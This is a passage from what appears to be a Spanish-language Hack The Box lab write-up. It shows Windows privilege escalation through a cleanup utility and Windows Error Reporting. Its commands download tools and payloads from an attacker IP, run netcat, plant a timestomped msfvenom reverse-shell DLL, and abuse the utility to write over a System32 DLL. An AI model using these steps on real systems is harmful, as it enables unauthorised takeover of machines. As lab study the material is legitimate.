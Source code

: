 ```shell
----                -------------         ------ ----                                                                  
d-----         5/1/2023  12:01 PM                a_b_c_d_e                                                             


PS C:\program files\Cleanup> iwr http://10.10.14.19/Report.wer -outfile C:\programdata\microsoft\windows\wer\reportqueue\a_b_c_d_e\Report.wer
PS C:\program files\Cleanup> cmd /c SCHTASKS /RUN /TN "Microsoft\Windows\Windows Error Reporting\QueueReporting"
SUCCESS: Attempted to run the scheduled task "Microsoft\Windows\Windows Error Reporting\QueueReporting".
PS C:\program files\Cleanup> netstat -ano | findstr 1337
  TCP    127.0.0.1:1337         0.0.0.0:0              LISTENING       3548
PS C:\program files\Cleanup> wget http://10.10.14.19/nc64.exe -o C:/windows/temp/privesc2/nc64.exe
PS C:\program files\Cleanup> cmd /c "C:\windows\temp\privesc2\nc64.exe 127.0.0.1 1337"
```
Por alguna razón no me entabló la conexión, podemos intentar crearnos nuestro propio archivo dll con msfvenom.

```powerhshell
PS C:\windows\temp\privesc> dir


    Directory: C:\windows\temp\privesc


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-a----         5/1/2023  12:13 PM           9216 rev.dll                                                               


PS C:\windows\temp\privesc> $(Get-Item rev.dll).creationTime = $(Get-Date "1/1/2021 6:00 am")
PS C:\windows\temp\privesc> $(Get-Item rev.dll).LastaccessTime = $(Get-Date "1/1/2021 6:00 am")
PS C:\windows\temp\privesc> $(Get-Item rev.dll).LastWriteTime = $(Get-Date "1/1/2021 6:00 am")
PS C:\windows\temp\privesc> copy rev.dll C:\Users\web\Downloads\rev.dll
PS C:\windows\temp\privesc> cmd /c "C:\program files\cleanup\client.exe"
Cleaning C:\Users\web\Downloads
PS C:\windows\temp\privesc> dir \programdata\cleanup


    Directory: C:\programdata\cleanup


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-a----         5/1/2023  11:54 AM          49208 QzpcVXNlcnNcd2ViXERvd25sb2Fkc1xwaG9uZWluZm8uZGxs                      
-a----         5/1/2023  12:15 PM          36920 QzpcVXNlcnNcd2ViXERvd25sb2Fkc1xyZXYuZGxs                              
```
```shell
gu3ro@parrot:/home/gu3ro/Desktop/guero/web/arvillalobos.github.io/_posts/htbmachines/Windows$ echo -n "C:\Windows\System32\wbem\tzres.dll" | base64      
QzpcV2luZG93c1xTeXN0ZW0zMlx3YmVtCXpyZXMuZGxs
```
```powershell
PS C:\programdata\cleanup> cmd /c "C:\program files\cleanup\client.exe" -R C:\Windows\System32\wbem\tzres.dll
```